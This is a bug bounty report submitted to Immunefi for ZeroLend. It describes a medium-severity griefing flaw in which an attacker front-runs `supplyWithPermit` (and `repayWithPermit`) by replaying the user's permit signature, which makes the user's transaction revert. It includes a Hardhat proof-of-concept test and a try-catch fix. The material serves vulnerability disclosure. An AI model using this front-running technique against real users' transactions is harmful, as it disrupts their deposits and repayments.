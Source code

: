 
# Attacker can grief a user by making his 'supplyWithPermit' call fail

Submitted on Sun Mar 03 2024 13:57:36 GMT-0400 (Atlantic Standard Time) by @djxploit for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28970

Report type: Smart Contract

Report severity: Medium

Target: https://pacific-explorer.manta.network/address/0x8676e39B5D2f0d6E0d78a4208a0cCBc50504972e

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
When a user calls `supplyWithPermit` function, attacker can make the call revert by front-running. This happens because of a missing `try-catch` statement in the `supplyWithPermit` function.

## Vulnerability Details
When `supplyWithPermit` is called, by passing a permit signature, the contract calls the `permit` function of the asset to get approval to spend on behalf of caller. It then calls the `SupplyLogic.executeSupply` function to supply the asset. 

So an attacker sees the `supplyWithPermit` call in the mempool, and extracts the permit signature from the call's argument. Attacker then use this permit signature, to directly call the asset's `permit` function. This will give the approval to the contract address, but along with it will increase the user's nonce, thus making the signature invalid for any further use.

Due to this when the original  `supplyWithPermit` gets mined, it will revert, as the signature has become invalid. Hence the user's transaction will revert.

## Impact Details
Attacker can grief users by frontrunning the `supplyWithPermit` functions, making that functionality unusable by users.
Apart from `supplyWithPermit` the `repayWithPermit` function is also vulnerable to this issue.

## Remediation Details
Implement a try-catch statement. Inside the `supplyWithPermit` function, call the assets `permit` statement using a try statement, and catch any revert. That will resolve the issue. 

## References
https://www.trust-security.xyz/post/permission-denied
        
## Proof of concept
## Proof of Concept

Here is the test file. The specific test case showing the vulnerability is "Supply with permit test'"
```
import { expect } from 'chai';
import { BigNumber, Signer, utils } from 'ethers';
import { impersonateAccountsHardhat } from '../helpers/misc-utils';
import { ProtocolErrors, RateMode } from '../helpers/types';
import { getFirstSigner } from '@aave/deploy-v3/dist/helpers/utilities/signer';
import { makeSuite, TestEnv } from './helpers/make-suite';
import { HardhatRuntimeEnvironment } from 'hardhat/types';
import {
  evmSnapshot,
  evmRevert,
  DefaultReserveInterestRateStrategy__factory,
  VariableDebtToken__factory,
  increaseTime,
  AaveDistributionManager,
} from '@aave/deploy-v3';
import {
  InitializableImmutableAdminUpgradeabilityProxy,
  MockL2Pool__factory,
  MockL2Pool,
  L2Encoder,
  L2Encoder__factory,
} from '../types';
import { ethers, getChainId } from 'hardhat';
import {
  buildPermitParams,
  getProxyImplementation,
  getSignatureFromTypedData,
} from '../helpers/contracts-helpers';
import { getTestWallets } from './helpers/utils/wallets';
import { MAX_UINT_AMOUNT } from '../helpers/constants';
import { parseUnits } from 'ethers/lib/utils';
import { getReserveData, getUserData } from './helpers/utils/helpers';
import { calcExpectedStableDebtTokenBalance } from './helpers/utils/calculations';

declare var hre: HardhatRuntimeEnvironment;

makeSuite('Pool: L2 functions', (testEnv: TestEnv) => {
  const {
    INVALID_HF,
    NO_MORE_RESERVES_ALLOWED,
    CALLER_NOT_ATOKEN,
    NOT_CONTRACT,
    CALLER_NOT_POOL_CONFIGURATOR,
    RESERVE_ALREADY_INITIALIZED,
    INVALID_ADDRESSES_PROVIDER,
    RESERVE_ALREADY_ADDED,
    DEBT_CEILING_NOT_ZERO,
    ASSET_NOT_LISTED,
    ZERO_ADDRESS_NOT_VALID,
  } = ProtocolErrors;

  let l2Pool: MockL2Pool;

  const POOL_ID = utils.formatBytes32String('POOL');

  let encoder: L2Encoder;

  before('Deploying L2Pool', async () => {
    const { addressesProvider, poolAdmin, pool, deployer, oracle } = testEnv;
    const { deployer: deployerName } = await hre.getNamedAccounts();

    encoder = await (await new L2Encoder__factory(deployer.signer).deploy(pool.address)).deployed();

    // Deploy the mock Pool with a `dropReserve` skipping the checks
    const L2POOL_IMPL_ARTIFACT = await hre.deployments.deploy('MockL2Pool', {
      contract: 'MockL2Pool',
      from: deployerName,
      args: [addressesProvider.address],
      libraries: {
        SupplyLogic: (await hre.deployments.get('SupplyLogic')).address,
        BorrowLogic: (await hre.deployments.get('BorrowLogic')).address,
        LiquidationLogic: (await hre.deployments.get('LiquidationLogic')).address,
        EModeLogic: (await hre.deployments.get('EModeLogic')).address,
        BridgeLogic: (await hre.deployments.get('BridgeLogic')).address,
        FlashLoanLogic: (await hre.deployments.get('FlashLoanLogic')).address,
        PoolLogic: (await hre.deployments.get('PoolLogic')).address,
      },
      log: false,
    });

    const poolProxyAddress = await addressesProvider.getPool();
    const oldPoolImpl = await getProxyImplementation(addressesProvider.address, poolProxyAddress);

    // Upgrade the Pool
    await expect(
      addressesProvider.connect(poolAdmin.signer).setPoolImpl(L2POOL_IMPL_ARTIFACT.address)
    )
      .to.emit(addressesProvider, 'PoolUpdated')
      .withArgs(oldPoolImpl, L2POOL_IMPL_ARTIFACT.address);

    // Get the Pool instance
    const poolAddress = await addressesProvider.getPool();
    l2Pool = await MockL2Pool__factory.connect(poolAddress, await getFirstSigner());
    expect(await addressesProvider.setPriceOracle(oracle.address));
  });

  after(async () => {
    const { aaveOracle, addressesProvider } = testEnv;
    expect(await addressesProvider.setPriceOracle(aaveOracle.address));
  });

  it('Supply with permit test', async () => {
    // user0 is the attacker
    const { deployer, dai, aDai, users: [user0] } = testEnv;

    const chainId = Number(await getChainId());
    const nonce = await dai.nonces(deployer.address);
    const amount = utils.parseEther('10000');
    const highDeadline = '3000000000';
    const userPrivateKey = getTestWallets()[0].secretKey;
    
    const msgParams = buildPermitParams(
      chainId,
      dai.address,
      '1',
      await dai.symbol(),
      deployer.address,
      l2Pool.address,
      nonce.toNumber(),
      highDeadline,
      amount.toString()
    );
    const { v, r, s } = getSignatureFromTypedData(userPrivateKey, msgParams);

    await dai.connect(deployer.signer)['mint(uint256)'](amount);
    const referralCode = BigNumber.from(2);
    
    // Simulate frontrunning
    // Attacker see the below 'supplyWithPermit' call in mempool, so he call the permit() of DAI directly, 
    // by using the signature from the call. This will increase the nonce of the 'deployer', which
    // make the signature invalid for further use.
    await dai.connect(user0.signer)['permit(address,address,uint256,uint256,uint8,bytes32,bytes32)'](deployer.address,l2Pool.address,amount,highDeadline,v,r,s);

    // So when the actual supplyWithPermit call will get mined, it will revert, as the signature has become invalid because
    // of the frontrunning done by attacker, which increased deployer's nonce by directly calling the permit function of DAI.
    await expect(
      l2Pool.connect(deployer.signer)['supplyWithPermit(address,uint256,address,uint16,uint256,uint8,bytes32,bytes32)'](
        dai.address,
        amount,
        deployer.address,
        referralCode,
        highDeadline,
        v,
        r,
        s)
    )
      .to.be.revertedWith(
        "INVALID_SIGNATURE"
    );
  });
});
```
